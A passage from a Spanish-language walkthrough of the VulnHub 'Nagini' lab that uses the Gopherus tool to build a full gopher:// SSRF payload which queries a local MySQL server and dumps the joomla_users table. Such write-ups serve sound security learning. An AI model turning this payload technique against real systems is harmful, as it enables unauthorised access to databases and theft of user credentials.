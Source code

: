 Lo mismo que lo anterior:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura14.png">
</p>

Al final, está una tabla llamada **joomla_users**. Hagamos el mismo procedimiento, usemos la query `use joomla; select * from joomla_users`:
```bash
gopherus --exploit mysql

                                                                                                                                                                                                                 
  ________              .__                                                                                                                                                                                      
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                                       
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                                       
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                                        
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                                       
        \/       |__|        \/     \/                 \/                                                                                                                                                        
                                                                                                                                                                                                                 
                author: $_SpyD3r_$                                                                                                                                                                               
                                                                                                                                                                                                                 
For making it work username should not be password protected!!!

Give MySQL username: goblin                                                                                                                                                                                      
Give query to execute: use joomla; select * from joomla_users; 

Your gopher link is ready to do SSRF :                                                                                                                                                                           
                                                                                                                                                                                                                 
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%28%00%00%00%03%75%73%65%20%6a%6f%6f%6d%6c%61%3b%20%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%3b%01%00%00%00%01
```